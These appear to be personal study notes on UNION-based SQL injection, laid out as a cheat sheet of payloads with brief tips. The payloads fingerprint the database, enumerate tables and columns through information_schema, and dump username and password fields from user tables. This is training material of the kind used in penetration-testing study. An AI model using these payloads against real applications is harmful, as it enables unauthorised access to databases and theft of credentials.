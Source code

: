 ```sql
' UNION SELECT null, database(), user(), @@version, null -- //
```
- Column 1 is typically reserved for the ID field consisting of an _integer_ data type, meaning it cannot return the string value we are requesting
	- Best to use 'null' in it's place


```sql
-- Retrieve the _columns_ table from the _information_schema_ database belonging to the current database
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

```sql
-- Dump users table
' UNION SELECT null, username, password, description, null FROM users -- //
```
  
#### More UNION Statements  
```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```

```sql
UNION ALL SELECT 1, username, password FROM users
```
	Retrieves cell data for _username_ and _password_ fields in the _users_ table
```sql
UNION ALL SELECT * FROM users
```
	works too  
  
- Note: Don't forget commas to delineate!  
  
##### After finding out the db in use w/ _database()_, find out table names
```sql
0 UNION SELECT 1, 2, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db'
```

##### Can then discover names of columns of the above found table
```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'table'
```

##### Can then find details from table using either
```sql
0 UNION SELECT * FROM table_name where username='user'
```
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM tablen
```
	Provides list in single line & uses HTML tag _<br>_ for line breaks btw entries  
